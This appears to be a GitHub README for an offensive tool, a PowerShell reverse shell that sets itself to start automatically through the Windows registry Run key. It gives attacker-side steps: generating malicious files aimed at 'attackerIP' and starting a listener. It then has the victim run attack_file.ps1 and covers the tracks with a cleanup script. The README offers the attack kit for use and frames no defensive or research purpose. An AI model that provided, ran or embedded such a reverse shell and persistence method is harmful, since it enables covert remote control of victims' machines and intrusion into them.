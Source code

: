 # Auto Start Powershell Reverse shell
auto start the shell by modifying the registry run key

## Example Usage
1. attacker end<br>
    generate malicous files and start the listener<br>
    python3 gen_bat.py attackerIP <br>
    sudo python3 reverse_http_server.py<br>
    <br>
2. victim end<br>
    execute attack_file.ps1<br>
    <br>
3. remove the malicious script on victim's computer<br>
    execute clear.bat


